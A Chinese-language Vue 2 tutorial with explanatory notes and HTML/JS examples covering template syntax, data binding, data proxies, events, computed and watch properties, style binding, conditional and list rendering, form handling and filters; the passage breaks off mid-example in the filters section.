

## 1. 初识Vue

1. 想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象
2. root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法
3. root容器里的代码被称为【Vue模板】
4. Vue实例和容器是一一对应的
5. 真实开发中只有一个Vue实例，并且会配合着组件一起使用
6. {&#8203;{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性
7. 一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新

> 注意区分：js表达式 和 js代码(语句)
>
> 1. 表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方：
>    1. a
>    2. a+b
>    3. demo(1)
>    4. x === y ? 'a':'b'
> 2. js代码(语句)
>    1. `if(){}`
>    2. `for(){}`

```html
<!-- 准备好一个容器 -->
<div id="demo">
  <h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
</div>

<script type="text/javascript" >
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

  //创建Vue实例
  new Vue({
    el:'#demo', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。
    data:{ //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象。
      name:'Manaphy',
      address:'杭州'
    }
  })

</script>
```
## 2.模板语法

Vue模板语法有2大类：

1.插值语法：

功能：用于解析标签体内容。

写法：{&#8203;{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。

2.指令语法：

功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。

举例：v-bind:href="xxx" 或简写为 :href="xxx"，xxx同样要写js表达式，且可以直接读取到data中的所有属性。
	
备注：Vue中有很多的指令，且形式都是：v-????，此处我们只是拿v-bind举个例子。


```html
<div id="root">
  <h1>插值语法</h1>
  <h3>你好，{{name}}</h3>
  <hr/>
  <h1>指令语法</h1>
  <a v-bind:href="school.url.toUpperCase()" x="hello">点我去{{school.name}}学习1</a>
  <a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
</div>

<script type="text/javascript">

new Vue({
  el:'#root',
  data:{
    name:'jack',
    school:{
      name:'尚硅谷',
      url:'http://www.baidu.com',
    }
  }
})
</script>
```
## 3.数据绑定
::: info 介绍
Vue中有2种数据绑定的方式

1.单向绑定(v-bind)：数据只能从data流向页面。

2.双向绑定(v-model)：数据不仅能从data流向页面，还可以从页面流向data。
:::

> 1. 双向绑定一般都应用在表单类元素上（如：input、select等）
> 2. v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。

```html
<div id="root">
  <!-- 普通写法 -->
  <!-- 单向数据绑定：<input type="text" v-bind:value="name"><br/>
  双向数据绑定：<input type="text" v-model:value="name"><br/> -->

  <!-- 简写 -->
  单向数据绑定：<input type="text" :value="name"><br/>
  双向数据绑定：<input type="text" v-model="name"><br/>

  <!-- 如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上 -->
  <!-- <h2 v-model:x="name">你好啊</h2> -->
</div>

<script type="text/javascript">

new Vue({
  el:'#root',
  data:{
    name:'张三'
  }
})
</script>
```
## 4.el与data的两种写法
::: info 介绍
**1.el有2种写法**

1. new Vue时候配置el属性
2. 先创建Vue实例，随后再通过`vm.$mount('#root')`指定el的值。

**2.data有2种写法，分别**`对象式`和`函数式`

如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。

一个重要的原则：由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了。
:::

```html
<div id="root">
  <h1>你好，{{name}}</h1>
</div>

<script type="text/javascript">

//el的两种写法
/* const vm = new Vue({
  //el:'#root', //第一种写法
  data:{
    name:'张三'
  }
})
console.log(v)
v.$mount('#root') //第二种写法 */

//data的两种写法
new Vue({
  el:'#root',
  //data的第一种写法：对象式
  /* data:{
    name:'张三'
  } */

  //data的第二种写法：函数式
  data(){
    console.log('@@@',this) //此处的this是Vue实例对象
    return{
      name:'张三'
    }
  }
})
</script>
```
## 5.MVVM模型

:::note 介绍
MVVM模型

1. M：模型(Model) ：data中的数据
2. V：视图(View) ：模板代码
3. VM：视图模型(ViewModel)：Vue实例

观察发现：

1. data中所有的属性，最后都出现在了vm身上。
2. vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。

:::

## 6.数据代理
### Object.defineproperty方法
```html
<script type="text/javascript" >
	let number = 18
	let person = {
		name:'张三',
		sex:'男',
	}

	Object.defineProperty(person,'age',{
		// value:18,
		// enumerable:true, //控制属性是否可以枚举，默认值是false
		// writable:true, //控制属性是否可以被修改，默认值是false
		// configurable:true //控制属性是否可以被删除，默认值是false

		//当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
		get(){
			console.log('有人读取age属性了')
			return number
		},

		//当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
		set(value){
			console.log('有人修改了age属性，且值是',value)
			number = value
		}

	})

	// console.log(Object.keys(person))
	console.log(person)
</script>
```
### 何为数据代理 
```html
<!-- 数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）-->
<script type="text/javascript" >
  let obj = {x:100}
  let obj2 = {y:200}

  Object.defineProperty(obj2,'x',{
    get(){
      return obj.x
    },
    set(value){
      obj.x = value
    }
  })
</script>
```
### Vue中的数据代理
:::note 介绍

1. Vue中的数据代理：

通过vm对象来代理data对象中属性的操作（读/写）
2. Vue中数据代理的好处：

更加方便的操作data中的数据
3. 基本原理：

通过Object.defineProperty()把data对象中所有属性添加到vm上。

为每一个添加到vm上的属性，都指定一个getter/setter。

在getter/setter内部去操作（读/写）data中对应的属性。
:::
## 7.事件处理
### 事件的基本使用
:::note 介绍

1. 使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名
2. 事件的回调需要配置在methods对象中，最终会在vm上
3. methods中配置的函数，不要用箭头函数！否则this就不是vm了
4. methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象
5. @click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参
:::
```html
<div id="root">
  <h2>欢迎来到{{name}}学习</h2>
   <button v-on:click="showInfo1">点我提示信息</button>
  <button @click="showInfo1">点我提示信息1（不传参）</button>
  <button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
</div>

<script type="text/javascript">

const vm = new Vue({
  el:'#root',
  data:{
    name:'北大',
  },
  methods:{
    showInfo1(event){
      console.log(event.target.innerText)
      // console.log(this) //此处的this是vm
      alert('同学你好！')
    },
    showInfo2(event,number){
      console.log(event,number)
      console.log(event.target.innerText)
      // console.log(this) //此处的this是vm
      alert('同学你好！！')
    }
  }
})
</script>
```
### 事件修饰符
:::note 介绍

- prevent：阻止默认事件（常用）
- stop：阻止事件冒泡（常用）
- once：事件只触发一次（常用）
- capture：使用事件的捕获模式
- self：只有event.target是当前操作的元素时才触发事件
- passive：事件的默认行为立即执行，无需等待事件回调执行完毕

:::
```html
<div id="root">
  <h2>欢迎来到{{name}}学习</h2>
  <!-- 阻止默认事件（常用） -->
  <a href="http://www.baidu.com" @click.prevent="showInfo">点我提示信息</a>

  <!-- 阻止事件冒泡（常用） -->
  <div class="demo1" @click="showInfo">
    <button @click.stop="showInfo">点我提示信息</button>
    <!-- 修饰符可以连续写 -->
    <!-- <a href="http://www.baidu.com" @click.prevent.stop="showInfo">点我</a> -->
  </div>

  <!-- 事件只触发一次（常用） -->
  <button @click.once="showInfo">点我提示信息</button>

  <!-- 使用事件的捕获模式 -->
  <div class="box1" @click.capture="showMsg(1)">
    div1
    <div class="box2" @click="showMsg(2)">
      div2
    </div>
  </div>

  <!-- 只有event.target是当前操作的元素时才触发事件； -->
  <div class="demo1" @click.self="showInfo">
    <button @click="showInfo">点我提示信息</button>
  </div>

  <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
  <ul @wheel.passive="demo" class="list">
    <li>1</li>
    <li>2</li>
    <li>3</li>
    <li>4</li>
  </ul>

</div>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'北大'
    },
    methods:{
      showInfo(e){
        alert('同学你好！')
        // console.log(e.target)
      },
      showMsg(msg){
        console.log(msg)
      },
      demo(){
        for (let i = 0; i < 100000; i++) {
          console.log('#')
        }
        console.log('累坏了')
      }
    }
  })
</script>

<style>
  *{
    margin-top: 20px;
  }
  .demo1{
    height: 50px;
    background-color: skyblue;
  }
  .box1{
    padding: 5px;
    background-color: skyblue;
  }
  .box2{
    padding: 5px;
    background-color: orange;
  }
  .list{
    width: 200px;
    height: 200px;
    background-color: peru;
    overflow: auto;
  }
  li{
    height: 100px;
  }
</style>
```
###  键盘事件
**1.Vue中常用的按键别名**

::: info 介绍

回车 => enter

删除 => delete (捕获“删除”和“退格”键)

退出 => esc

空格 => space

换行 => tab (特殊，必须配合keydown去使用)

上 => up

下 => down

左 => left

右 => right

:::

**2.Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）**

**3.系统修饰键（用法特殊）：ctrl、alt、shift、meta**

1. 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
2. 配合keydown使用：正常触发事件。

**4.也可以使用keyCode去指定具体的按键（不推荐，vue3已舍弃该方法）**

**5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名**

```html
<div id="root">
  <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
  <input type="text" placeholder="按键提示输入" @keydown="showInfo">
</div>

<script type="text/javascript">
  Vue.config.keyCodes.huiche = 13 //定义了一个别名按键
  
  new Vue({
    el:'#root',
    methods: {
      showInfo(e){
        console.log(e.key,e.keyCode)
        // console.log(e.target.value)
      }
    },
  })
</script>
```
## 8.计算属性
:::note 介绍

**定义**：要用的属性不存在，要通过已有属性计算得来。

**原理**：底层借助了Object.defineproperty方法提供的getter和setter。
<span style="color:green">get函数什么时候执行？</span>
1. 初次读取时会执行一次。
2. 当依赖的数据发生改变时会被再次调用。

**优势**：与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。

**备注**：
1. 计算属性最终会出现在vm上，直接读取使用即可。
2. 如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。
   :::

```html
<div id="root">
  姓：<input type="text" v-model="firstName"> <br/><br/>
  名：<input type="text" v-model="lastName"> <br/><br/>
  方式一 全名：<span>{{firstName}}-{{lastName}}</span> <br/><br/>
  方式二 全名(方法)：<span>{{fullName()}}</span> <br/><br/>
  方式三 全名(计算属性)：<span>{{fullName1}}</span> <br/><br/>
  方式四 全名(计算属性-简写)：<span>{{fullName2}}</span>
</div>

<script type="text/javascript">

new Vue({
  el:'#root',
  data:{
    firstName:'张',
    lastName:'三'
  },
  methods: {
    fullName(){
      console.log('@---fullName')
      return this.firstName + '-' + this.lastName
    }
  },
  computed:{
    fullName1:{
      //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
      //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
      get(){
        console.log('get被调用了')
        // console.log(this) //此处的this是vm
        return this.firstName + '-' + this.lastName
      },
      //set什么时候调用? 当fullName被修改时。
      set(value){
        console.log('set',value)
        const arr = value.split('-')
        this.firstName = arr[0]
        this.lastName = arr[1]
      }
    },
    //简写
    fullName2(){
      console.log('get被调用了')
      return this.firstName + '-' + this.lastName
    }
  }
})
</script>
```
## 9.监视属性
:::note 介绍
监视属性watch：
+ 当被监视的属性变化时, 回调函数自动调用, 进行相关操作
+ 监视的属性必须存在，才能进行监视！！

监视的两种写法：
+ new Vue时传入watch配置
+ 通过vm.$watch监视

深度监视：
+ Vue中的watch默认不监测对象内部值的改变（一层）。
+ 配置deep:true可以监测对象内部值改变（多层）。

备注：
+ Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！
+ 使用watch时根据数据的具体结构，决定是否采用深度监视。
:::

```html
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="changeWeather">切换天气</button>
  <hr/>
  <h3>a的值是:{{numbers.a}}</h3>
  <button @click="numbers.a++">点我让a+1</button>
  <h3>b的值是:{{numbers.b}}</h3>
  <button @click="numbers.b++">点我让b+1</button>
  <button @click="numbers = {a:666,b:888}">彻底替换掉numbers</button>
</div>

<script type="text/javascript">
  const vm = new Vue({
    el: '#root',
    data: {
      isHot: true,
      numbers: {
        a: 1,
        b: 1
      }
    },
    computed: {
      info() {
        return this.isHot ? '炎热' : '凉爽'
      }
    },
    methods: {
      changeWeather() {
        this.isHot = !this.isHot
      }
    },
    watch: {
      isHot: {
        // immediate:true, //初始化时让handler调用一下
        //handler什么时候调用？当isHot发生改变时。
        handler(newValue, oldValue) {
          console.log('isHot被修改了', newValue, oldValue)
        }
      },
      //监视多级结构中某个属性的变化
      'numbers.a': {
        handler() {
          console.log('a被改变了')
        }
      },
      //监视多级结构中所有属性的变化
      numbers: {
        deep: true,
        handler() {
          console.log('numbers改变了')
        }
      }
    }
  })

</script>
```
**computed和watch之间的区别：**

+ computed能完成的功能，watch都可以完成。
+ watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作。

两个重要的小原则：

1. 所被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例对象。
2. 所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），最好写成箭头函数，这样this的指向才是vm 或 组件实例对象。

```html
<div id="root">
  姓：<input type="text" v-model="firstName"> <br/><br/>
  名：<input type="text" v-model="lastName"> <br/><br/>
  全名：<span>{{fullName}}</span> <br/><br/>
</div>

<script type="text/javascript">
  const vm = new Vue({
    el:'#root',
    data:{
      firstName:'张',
      lastName:'三',
      fullName:'张-三'
    },
    watch:{
      firstName(val){
        // 可以实现功能,当姓改完后1秒后生效
        setTimeout(()=>{
          console.log(this)
          this.fullName = val + '-' + this.lastName
        },1000);
      },
      lastName(val){
        this.fullName = this.firstName + '-' + val
      }
    }
  })
</script>
```
## 10.绑定样式
:::note 介绍
**class样式** 写法:class="xxx" xxx可以是字符串、对象、数组。   

+ 字符串写法适用于：类名不确定，要动态获取。
+ 对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
+ 数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

**style样式**
+ `:style="{fontSize: xxx}"`其中xxx是动态值。
+ `:style="[a,b]"`其中a、b是样式对象。
   :::
```html
<style>
  .basic{
    width: 400px;
    height: 100px;
    border: 1px solid black;
  }

  .happy{
    border: 4px solid red;;
    background-color: rgba(255, 255, 0, 0.644);
    background: linear-gradient(30deg,yellow,pink,orange,yellow);
  }
  .sad{
    border: 4px dashed rgb(2, 197, 2);
    background-color: gray;
  }
  .normal{
    background-color: skyblue;
  }

  .atguigu1{
    background-color: yellowgreen;
  }
  .atguigu2{
    font-size: 30px;
    text-shadow:2px 2px 10px red;
  }
  .atguigu3{
    border-radius: 20px;
  }
</style>

<div id="root">
	<!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
	<div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br/><br/>

	<!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
	<div class="basic" :class="classArr">{{name}}</div> <br/><br/>

	<!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
	<div class="basic" :class="classObj">{{name}}</div> <br/><br/>

	<!-- 绑定style样式--对象写法 -->
	<div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
	<!-- 绑定style样式--数组写法 -->
	<div class="basic" :style="styleArr">{{name}}</div>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false

	const vm = new Vue({
		el:'#root',
		data:{
			name:'张三',
			mood:'normal',
			classArr:['atguigu1','atguigu2','atguigu3'],
			classObj:{
				atguigu1:false,
				atguigu2:false,
			},
			styleObj:{
				fontSize: '40px',
				color:'red',
			},
			styleObj2:{
				backgroundColor:'orange'
			},
			styleArr:[
				{
					fontSize: '40px',
					color:'blue',
				},
				{
					backgroundColor:'gray'
				}
			]
		},
		methods: {
			changeMood(){
				const arr = ['happy','sad','normal']
				const index = Math.floor(Math.random()*3)
				this.mood = arr[index]
			}
		},
	})
</script>
```
## 11.条件渲染
:::note 介绍
1.v-if

   写法：

     (1).v-if="表达式"
    
     (2).v-else-if="表达式"
    
     (3).v-else="表达式"

   适用于：切换频率较低的场景。

   特点：不展示的DOM元素直接被移除。

   注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。

2.v-show

   写法：v-show="表达式"

   适用于：切换频率较高的场景。

   特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉

3.备注：使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。
:::
```html
<div id="root">
	<h2>当前的n值是:{{n}}</h2>
	<button @click="n++">点我n+1</button>
	<!-- 使用v-show做条件渲染 -->
	<!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
	<!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

	<!-- 使用v-if做条件渲染 -->
	<!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
	<!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

	<!-- v-else和v-else-if -->
	<!-- <div v-if="n === 1">Angular</div>
	<div v-else-if="n === 2">React</div>
	<div v-else-if="n === 3">Vue</div>
	<div v-else>哈哈</div> -->

	<!-- v-if与template的配合使用 -->
	<template v-if="n === 1">
		<h2>你好</h2>
		<h2>浙大</h2>
		<h2>杭州</h2>
	</template>

</div>

<script type="text/javascript">
	Vue.config.productionTip = false

	const vm = new Vue({
		el:'#root',
		data:{
			name:'浙大',
			n:0
		}
	})
</script>
```
## 12.列表渲染
### 基本列表
:::note 介绍
v-for指令:

  1.用于展示列表数据

  2.语法：`v-for="(item, index) in xxx" :key="yyy"`

  3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）
:::

```html
<div id="root">
	<!-- 遍历数组 -->
	<h2>人员列表（遍历数组）</h2>
	<ul>
		<li v-for="(p,index) of persons" :key="index">
			{{p.name}}-{{p.age}}
		</li>
	</ul>

	<!-- 遍历对象 -->
	<h2>汽车信息（遍历对象）</h2>
	<ul>
		<li v-for="(value,k) of car" :key="k">
			{{k}}-{{value}}
		</li>
	</ul>

	<!-- 遍历字符串 -->
	<h2>测试遍历字符串（用得少）</h2>
	<ul>
		<li v-for="(char,index) of str" :key="index">
			{{char}}-{{index}}
		</li>
	</ul>
	
	<!-- 遍历指定次数 -->
	<h2>测试遍历指定次数（用得少）</h2>
	<ul>
		<li v-for="(number,index) of 5" :key="index">
			{{index}}-{{number}}
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false
	
	new Vue({
		el:'#root',
		data:{
			persons:[
				{id:'001',name:'张三',age:18},
				{id:'002',name:'李四',age:19},
				{id:'003',name:'王五',age:20}
			],
			car:{
				name:'奥迪A8',
				price:'70万',
				color:'黑色'
			},
			str:'hello'
		}
	})
</script>
```
### key的原理
:::note 介绍

面试题：react、vue中的key有什么作用？（key的内部原理）

1. 虚拟DOM中key的作用：

   key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】,       随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：

2. 对比规则：

     1. 旧虚拟DOM中找到了与新虚拟DOM相同的key：

        若虚拟DOM中内容没变, 直接使用之前的真实DOM！

     2. 若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。

           旧虚拟DOM中未找到与新虚拟DOM相同的key，创建新的真实DOM，随后渲染到到页面。 

3. 用index作为key可能会引发的问题：

   1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
   2. 会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
   3. 如果结构中还包含输入类的DOM：会产生错误DOM更新 ==> 界面有问题。    

4. 开发中如何选择key?

     1. 最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
     2. 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。

:::


```html
<div id="root">
	<!-- 遍历数组 -->
	<h2>人员列表（遍历数组）</h2>
	<button @click.once="add">添加一个老刘</button>
	<ul>
		<li v-for="(p,index) of persons" :key="index">
			{{p.name}}-{{p.age}}
			<input type="text">
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false
	
	new Vue({
		el:'#root',
		data:{
			persons:[
				{id:'001',name:'张三',age:18},
				{id:'002',name:'李四',age:19},
				{id:'003',name:'王五',age:20}
			]
		},
		methods: {
			add(){
				const p = {id:'004',name:'老刘',age:40}
				this.persons.unshift(p)
			}
		},
	})
</script>
```
### 列表过滤
```html
<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord">
  <ul>
    <li v-for="(p,index) of filPersons" :key="index">
      {{p.name}}-{{p.age}}-{{p.sex}}
    </li>
  </ul>
</div>
<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      keyWord: '',
      persons: [
        {id: '001', name: '马冬梅', age: 19, sex: '女'},
        {id: '002', name: '周冬雨', age: 20, sex: '女'},
        {id: '003', name: '周杰伦', age: 21, sex: '男'},
        {id: '004', name: '温兆伦', age: 22, sex: '男'}
      ]
    },
    //用watch实现
    /*watch: {
      keyWord: {
        immediate: true,
        handler(val) {
          this.filPersons = this.persons.filter((p) => {
            return p.name.indexOf(val) !== -1
          })
        }
      }
    },*/
    //用computed实现
    computed: {
      filPersons() {
        return this.persons.filter((p) => {
          return p.name.indexOf(this.keyWord) !== -1
        })
      }
    }
  })
</script>
```
### 列表排序
```html
<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord">
  <button @click="sortType = 2">年龄升序</button>
  <button @click="sortType = 1">年龄降序</button>
  <button @click="sortType = 0">原顺序</button>
  <ul>
    <li v-for="(p,index) of filPersons" :key="p.id">
      {{p.name}}-{{p.age}}-{{p.sex}}
      <input type="text">
    </li>
  </ul>
</div>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      keyWord: '',
      sortType: 0, //0原顺序 1降序 2升序
      persons: [
        {id: '001', name: '马冬梅', age: 30, sex: '女'},
        {id: '002', name: '周冬雨', age: 31, sex: '女'},
        {id: '003', name: '周杰伦', age: 18, sex: '男'},
        {id: '004', name: '温兆伦', age: 19, sex: '男'}
      ]
    },
    computed: {
      filPersons() {
        const arr = this.persons.filter((p) => {
          return p.name.indexOf(this.keyWord) !== -1
        })
        //判断一下是否需要排序
        if (this.sortType) {
          arr.sort((p1, p2) => {
            return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
          })
        }
        return arr
      }
    }
  })
</script>
```
### 更新时的一个问题
```html
<div id="root">
  <h2>人员列表</h2>
  <button @click="updateMei">更新马冬梅的信息</button>
  <ul>
    <li v-for="(p,index) of persons" :key="p.id">
      {{p.name}}-{{p.age}}-{{p.sex}}
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false

  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: '001', name: '马冬梅', age: 30, sex: '女'},
        {id: '002', name: '周冬雨', age: 31, sex: '女'},
        {id: '003', name: '周杰伦', age: 18, sex: '男'},
        {id: '004', name: '温兆伦', age: 19, sex: '男'}
      ]
    },
    methods: {
      updateMei() {
        // this.persons[0].name = '马老师' //奏效
        // this.persons[0].age = 50 //奏效
        // this.persons[0].sex = '男' //奏效
        // this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'} //不奏效
        this.persons.splice(0, 1, {id: '001', name: '马老师', age: 50, sex: '男'})
      }
    }
  })
</script>
```

### 模拟一个数据监测
```html
<script type="text/javascript">

  let data = {
    name: '浙大',
    address: '杭州',
  }

  //创建一个监视的实例对象，用于监视data中属性的变化
  const obs = new Observer(data)
  console.log(obs)

  //准备一个vm实例对象
  let vm = {}
  vm._data = data = obs

  function Observer(obj) {
    //汇总对象中所有的属性形成一个数组
    const keys = Object.keys(obj)
    //遍历
    keys.forEach((k) => {
      Object.defineProperty(this, k, {
        get() {
          return obj[k]
        },
        set(val) {
          console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`)
          obj[k] = val
        }
      })
    })
  }
</script>
```
### Vue.set的使用
```html
<div id="root">
  <h1>学生信息</h1>
  <button @click="addSex">添加一个性别属性，默认值是男</button>
  <h2>姓名：{{student.name}}</h2>
  <h2 v-if="student.sex">性别：{{student.sex}}</h2>
</div>

<script type="text/javascript">
  const vm = new Vue({
    el: '#root',
    data: {
      student: {
        name: 'tom'
      }
    },
    methods: {
      addSex() {
        // Vue.set(this.student,'sex','男')
        this.$set(this.student, 'sex', '男')
        // 不能再vm对象上添加
      }
    }
  })
</script>
```

### Vue数据监测
:::note 介绍

Vue监视数据的原理：

  1. vue会监视data中所有层次的数据。

  2. 如何监测对象中的数据？

          通过setter实现监视，且要在new Vue时就传入要监测的数据。

            (1).对象中后追加的属性，Vue默认不做响应式处理
            
            (2).如需给后添加的属性做响应式，请使用如下API：
            
                    `Vue.set(target，propertyName/index，value)` 或 
            
                    `vm.$set(target，propertyName/index，value)`

  3. 如何监测数组中的数据？

            通过包裹数组更新元素的方法实现，本质就是做了两件事：

              (1).调用原生对应的方法对数组进行更新。
              
              (2).重新解析模板，进而更新页面。

  4.在Vue修改数组中的某个元素一定要用如下方法：

        1.使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
    
        2.`Vue.set()` 或 `vm.$set()`<br/>  <br/>  特别注意：`Vue.set()` 和 `vm.$set()` 不能给vm 或 vm的根数据对象 添加属性！！！
:::

## 13.收集表单数据
:::note 介绍

若：\<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。

若：\<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。

若：\<input type="checkbox"/>

  1.没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）

  2.配置input的value属性:

    (1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    
    (2)v-model的初始值是数组，那么收集的的就是value组成的数组

备注：v-model的三个修饰符：

    lazy：失去焦点再收集数据
    
    number：输入字符串转为有效的数字
    
    trim：输入首尾空格过滤

:::

```html
<div id="root">
	<form @submit.prevent="demo">
		账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
		密码：<input type="password" v-model="userInfo.password"> <br/><br/>
		年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
		性别：
		男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
		女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
		爱好：
		学习<input type="checkbox" v-model="userInfo.hobby" value="study">
		打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
		吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
		<br/><br/>
		所属校区
		<select v-model="userInfo.city">
			<option value="">请选择校区</option>
			<option value="beijing">杭州</option>
			<option value="shanghai">上海</option>
			<option value="shenzhen">深圳</option>
			<option value="wuhan">武汉</option>
		</select>
		<br/><br/>
		其他信息：
		<textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
		<input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
		<button>提交</button>
	</form>
</div>

<script type="text/javascript">
	new Vue({
		el:'#root',
		data:{
			userInfo:{
				account:'',
				password:'',
				age:18,
				sex:'female',
				hobby:[],
				city:'beijing',
				other:'',
				agree:''
			}
		},
		methods: {
			demo(){
				console.log(JSON.stringify(this.userInfo))
			}
		}
	})
</script>
```
## 14.过滤器
:::note 介绍

定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。

语法：

  1.注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`

  2.使用过滤器：{&#8203;{ xxx | 过滤器名}}  或  `v-bind:属性 = "xxx | 过滤器名"`

备注：

  1.过滤器也可以接收额外参数、多个过滤器也可以串联

  2.并没有改变原本的数据, 是产生新的对应的数据

:::

```html
<div id="root">
	<h2>显示格式化后的时间</h2>
	<!-- 计算属性实现 -->
	<h3>现在是：{{fmtTime}}</h3>
	<!-- methods实现 -->
	<h3>现在是：{{getFmtTime()}}</h3>
	<!-- 过滤器实现 -->
	<h3>现在是：{{time | timeFormater}}</h3>
	<!-- 过滤器实现（传参） -->
	<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
	<h3 :x="msg | mySlice">浙大</h3>
</div>

<div id="root2">
  <h2>{{msg | mySlice}}</h2>
</div>

<script type="text/javascript">
	//全局过滤器
